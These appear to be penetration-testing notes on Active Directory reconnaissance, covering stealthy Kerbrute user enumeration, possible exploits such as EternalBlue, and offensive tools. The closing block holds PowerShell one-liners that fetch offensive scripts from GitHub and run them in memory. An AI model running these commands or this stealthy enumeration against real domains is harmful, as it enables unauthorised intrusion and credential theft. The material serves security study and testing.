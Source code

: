 ### 2. Nmap Enumeration

- Enumerate the hosts further. 
- Look for what services these hosts are running, and identify the web servers and ==Domain Controller==

## Identify Users

- We will need to find a way to establish a foothold in the domain by either ==obtaining clear text credentials== or an ==NTLM password hash for a user, a SYSTEM shell on a domain-joined host, or a shell in the context of a domain user account.==

### Kerbrute Internal AD Username Enumeration

- Stealthy option for domain account enumeration.
- It takes advantage of the fact that Kerberos pre-authentication failures often will not trigger logs or alerts.
- Use in conjunction with `jsmith.txt` or `jsmith2.txt` from `insidetrust`

### 4. Identify Potential Vulnerabilities

- Possible exploit opportunities (MS08-067, EternalBlue, Bluekeep)
- Abusing a running service running in the context of `SYSTEM`

## Enumeration Tools

**adPEAS:** [https://github.com/61106960/adPEAS](https://github.com/61106960/adPEAS)
**BloodHound:** [https://github.com/BloodHoundAD/BloodHound](https://github.com/BloodHoundAD/BloodHound)
**Invoke-ADEnum:** [https://github.com/Leo4j/Invoke-ADEnum](https://github.com/Leo4j/Invoke-ADEnum)
**Powerview:**[https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
**Pywerview:** [https://github.com/the-useless-one/pywerview](https://github.com/the-useless-one/pywerview)

```bash
# adPEAS
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1);Invoke-adPEAS
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS-Light.ps1);Invoke-adPEAS

# BloodHound
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1);Invoke-Bloodhound -CollectionMethod "All,GPOLocalGroup"
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1);Invoke-Bloodhound -CollectionMethod "All,GPOLocalGroup" -Loop -Loopduration 06:00:00 -LoopInterval 00:15:00

# Invoke-ADEnum
IEX(IWR -UseBasicParsing https://raw.githubusercontent.com/Leo4j/Invoke-ADEnum/main/Invoke-ADEnum.ps1);Invoke-ADEnum

# PowerUpSQL
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/NetSPI/PowerUpSQL/master/PowerUpSQL.ps1")

# PowerView
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1)
```
